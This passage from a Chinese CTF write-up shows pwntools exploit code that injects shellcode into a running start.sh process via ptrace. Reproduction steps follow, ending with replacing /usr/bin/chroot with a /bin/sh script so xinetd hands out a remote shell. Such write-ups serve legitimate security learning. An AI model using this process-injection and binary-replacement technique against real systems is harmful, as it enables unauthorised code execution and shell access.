 ```python

for i in range(0, len(code), 1):
    power_shellcode +=f"mov r12, {code[i]}"
    power_shellcode +=shellcraft.ptrace(PTRACE_POKEDATA, target_pid, "r13", "r12")
    power_shellcode +=f"add r13, 8"

power_shellcode +=f"""
lea r11, [r15+{rip_offset}]
mov r14, [r14]
mov [r11], r14
"""
power_shellcode +=shellcraft.ptrace(PTRACE_SETREGS, target_pid, 0, "r15")
power_shellcode +=shellcraft.ptrace(PTRACE_CONT, target_pid, 0, 0)
power_shellcode +=shellcraft.ptrace(PTRACE_DETACH, target_pid, 0, 0)

io = process("./code")
gdb.attach(io)
power_shellcode = asm(power_shellcode)
io.send(power_shellcode)

io.interactive()
```
## 复现步骤

1. 在一个终端执行start.sh
![startsh](startsh.png)

2. 首先编译code(以提供给Pwn.py启动该程序)

3. 
    a.手动ps -A得到start.sh进程的PID, 将Pwn.py的target_pid改为此值. 运行`Pwn.py`, 其会先计算好注入`start.sh`的shellcode, 然后将其以8为单位转为数字(为了后文ptrace的POEKDATA服务, 因为POKEDATA就是8位单位向attach的进程写入数值)

    b. Pwn.py做的第二件事就是计算好attach到start.sh并向返回地址注入刚刚计算好的shellcode

4. 在Pwn.py运行后, 可以手动gdb attach上该start.sh进程, 检查shellcode写入情况(图中可以看到shellcode已经写入成功, 但是此时由于该进程仍在等待sleep进程结束, 所以不会从内核态返回到用户态执行你的shellcode)
![attachsh](attachsh.png)
![shwait4](shwait4.png)

5. 在本地复现时, 我偷懒没有写通过attach来kill掉sleep进程的shellcode, 于是我就通过命令行杀死
![killsleep](killsleep.png)

6. 在杀死进程后, 可以在gdb上观察, 发现start.sh进程已经可以成功从内核态返回, 并且执行你的shellcode代码
![inject_code](inject_code.png)

7. 在这题中, 只要把远程环境的/usr/bin/chroot换成
```
#!/bin/sh
/bin/sh
```
就可以使得远程靶机在通过xinetd启动chroot时获取shell

# 后记
这题的pwn还是很新颖的, 无论是考点, 还是实际的运用, 也是我为什么写了比较长的一篇博客来记录.希望以后的CTF能多些这样有意思的题目, 而不是通过各种恶心人的办法上难度

一般的pwn都是通过程序内部的内存破坏来实现获取shell, 但是这题却将整个docker容器都作为你的靶场, 趣味性十足


